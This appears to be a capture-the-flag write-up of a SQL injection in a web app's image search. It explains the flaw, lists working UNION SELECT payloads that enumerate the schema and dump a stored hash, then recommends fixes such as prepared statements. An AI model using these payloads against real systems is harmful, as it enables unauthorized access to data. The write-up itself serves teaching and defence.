 # Exploit

## Basic Mechanism

This vulnerability exploits an unsanitized search parameter in an image search feature:

1. The web application has a search feature for images
1. User input is directly incorporated into SQL queries without proper sanitization
1. An attacker can inject malicious SQL commands after legitimate input
1. The database executes these commands as if they were part of the original query
1. This allows the attacker to:
    - Extract database schema information
    - Access sensitive data
    - Potentially modify or delete data

## What can this do?

SQL injection vulnerabilities can have severe consequences:
- Bypass authentication
- Access sensitive data (user credentials, personal information)
- Extract database structure and contents
- Modify or delete data in the database
- Execute administrative operations on the database
- In some cases, gain control over the underlying server

## What we did

1. `1 union all select database(), version()` to get the database name and it's version: `Member_images`
2. `1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database()` to get tables name: `list_images`
3. We hex-encode the table name and use `1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6C6973745F696D61676573` to get the columns: `id,url,title,comment`
4. `1 union all select 1,group_concat(comment,0x0a) from list_images` -> `1928e8083cf461a51303633093573c46` that we paste in google and it gives us `albatroz`

# Patch

- Use Parameterized Queries/Prepared Statements: Never concatenate user input directly into SQL
- Input Validation: Validate that inputs match expected formats (numbers, dates, etc.)
- ORM (Object-Relational Mapping): Use frameworks that handle SQL securely
- Least Privilege: Run database connections with minimal required permissions
- Web Application Firewall: Add an extra layer to filter malicious patterns
- Escape Special Characters: If parameterized queries aren't possible, escape inputs
- Error Handling: Don't expose SQL errors to users